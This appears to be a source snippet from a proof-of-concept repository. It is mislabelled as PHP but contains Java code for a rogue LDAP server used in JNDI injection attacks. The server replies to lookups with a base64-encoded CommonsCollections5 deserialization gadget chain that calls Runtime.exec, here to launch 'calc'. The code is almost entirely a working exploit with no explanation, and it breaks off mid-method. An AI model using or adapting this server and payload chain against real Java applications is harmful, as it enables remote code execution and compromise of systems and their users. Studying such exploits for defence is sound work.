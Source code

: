 ```php

public class JNDIServer {
        private static final String LDAP_BASE = "dc=example,dc=com";
        public static void main ( String[] tmp_args ) throws Exception{
            String[] args=new String[]{"http://x.x.x.x/#aaa"};
            int port = 6666;

            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();
        }

        private static class OperationInterceptor extends InMemoryOperationInterceptor {

            private URL codebase;

            public OperationInterceptor ( URL cb ) {
                this.codebase = cb;
            }

            @Override
            public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
                String base = result.getRequest().getBaseDN();
                Entry e = new Entry(base);
                try {
                    sendResult(result, base, e);
                }
                catch ( Exception e1 ) {
                    e1.printStackTrace();
                }
            }

            protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws Exception {

                e.addAttribute("javaClassName", "foo");
                e.addAttribute("javaReferenceAddress","$1$String$$"+new BASE64Encoder().encode(CommonsCollections5()));
                e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$

                result.sendSearchEntry(e);
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
            }
        }

        private static byte[] CommonsCollections5() throws Exception{
            Transformer[] transformers=new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[]{}}),
                    new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[]{}}),
                    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
```